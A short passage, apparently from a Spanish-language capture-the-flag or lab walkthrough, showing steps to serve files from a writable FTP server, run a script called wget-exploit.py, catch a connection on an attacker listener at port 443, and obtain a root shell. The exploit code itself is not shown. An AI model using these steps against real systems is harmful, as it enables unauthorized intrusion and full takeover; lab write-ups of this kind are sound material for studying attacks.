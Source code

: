     ```bash
    authbind python -m pyftpdlib -p21 -w
    ```

1. en la otra ventana lanzamos el exploit

    ```bash
    authbind python wget-exploit.py
    ```

en la maquina de atacante nos ponemos en escucha por el puerto 443 y esperamos que nos entable esta Coneccion.



```bash
 whoami 
```
 -> root ;)